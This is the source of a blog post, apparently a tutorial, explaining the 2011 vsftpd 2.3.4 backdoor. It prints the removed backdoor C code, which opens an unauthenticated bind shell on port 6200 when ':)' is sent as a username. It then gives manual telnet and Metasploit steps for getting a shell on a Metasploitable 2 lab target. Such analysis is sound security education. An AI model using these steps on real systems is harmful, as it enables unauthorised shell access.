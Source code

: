 ```yaml
---
layout: post
title:  "VSFTPD 2.3.4"
categories: [Technical]
tags: [backdoor, exploit]
---
```


### Introduction

Between June 30th - July 1st 2011 a backdoor was introduced into the vsftpd-2.3.4.tar.gz archive this backdoor allowed an attacker to get a bind shell to the system and thus compromising the system. Although the backdoor was removed quickly (July 3rd 2011) a lot of people downloaded this vulnerable version of VSFTPD, causing quite a lot of panic for sysadmins.

### So, how does it work?

In general, it's actually a pretty simple exploit, and whilst there is a Metasploit module you really don't need to use it. The backdoor payload is initiated in response to a user sending `:)` to the server upon being prompted for a username, by sending that smiley face to the server it executes a function which opens a bind shell listener on port 6200 of the affected device.

### Code Review

```
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
```

As you can see in the above code, we're checking if some input is equal to a certain value, to be specific, we're checking if the user input is equal to `0x3a` and `0x29` if this is true then we're executing `vsf_sysutil_extra();` a quick Google on `0x3a` tells you it's a `:` and a further Google on `0x29` shows a `)` so as you can see there is the smiley face. So, now we know that we have this special input, let's look at the `vsf_sysutil_extra();` function as right now we don't have anything that resembles a vulnerability.

```
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
```

As you can see above, we're creating a bind socket and setting up a listener process on that socket. We're opening this socket on port 6200 and that is where the vulnerability lies, because we can now connect to this socket without *any* authentication process taking place.

### Exploit

As I mentioned earlier we can exploit this using the Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` however, we can carry out this exploit manually fairly easily, we will look at both methods in this post.

It's worth noting for the below exploitation examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Firstly, let's telnet to our affected device on port 21 using `telnet ip port` once we do that we'll be asked for a username & password, let's use `:)` as the username & `pass` as the password. If we wait a few seconds then port 6200 should be opened, you can also manually escape with `^]` but waiting also works.

Now if we run an nmap scan our target we should see that port 6200 is open, we can now use `telnet ip port` again and that's it! We now have shell access, if the service was running on a root account in a network we'd now have a root account in that network, simple, right? 


#### Metasploit Exploitation

As I mentioned, we can use the Metasploit module to carry out this attack however I do actually prefer doing it manually, nonetheless, let's get into this. Once again I am using [Metaspolitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2) as my target.

Start Metasploit using `msfconsole` then run `use exploit/unix/ftp/vsftpd_234_backdoor` now all we need to do is configure the host of the target, if you use `show options` you should see the `RPORT` field is already correct, to set the `RHOST` field use `set rhost ip` then we just type `run` and that's it, the script will carry out the attack for you, with a few exceptions it pretty much just does what you did manually, you can find a link to the Rapid7 page at the bottom of this post. But that's it! That's all we needed to do, now you have a shell.

### References
